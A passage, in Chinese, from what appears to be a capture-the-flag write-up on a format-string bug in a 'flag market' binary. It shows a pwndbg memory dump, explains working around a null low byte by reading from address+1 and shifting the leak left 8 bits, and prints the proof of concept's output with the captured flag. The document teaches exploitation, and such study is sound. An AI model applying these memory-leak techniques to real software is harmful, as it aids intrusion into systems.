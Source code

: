 需要注意的是，我们在动态调试中找到的那个指针：

```bash
pwndbg> telescope 0x7ffff7e031e0
00:0000│     0x7ffff7e031e0 (mp_+96) —▸ 0x405000 ◂— 0
```

在小端序中，其最低地址字节是"\x00"，这就会导致我们构造的格式化字符串"%s"直接戛然而止。

因此，我们可以通过"地址+1"的手段，来跳过该空字符，然后泄露地址完成之后，通过左移1字节（8位）的操作（对应脚本`<< 8`），实现最低有效位（`\x00`）的补回。

最终Poc的执行效果（关键部分）：

```bash
[DEBUG] Received 0x82 bytes:
    b'flag{0ec285cb-c1b3-49ff-820b-8075a639bc1e}\n'
    b'#welcome to flag market!\n'
    b'give me money to buy my flag,\n'
    b'choice: \n'
    b'1.take my money\n'
    b'2.exit\n'
flag{0ec285cb-c1b3-49ff-820b-8075a639bc1e}
#welcome to flag market!
give me money to buy my flag,
choice:
1.take my money
2.exit
```

可以看到flag被我们泄露出来了~
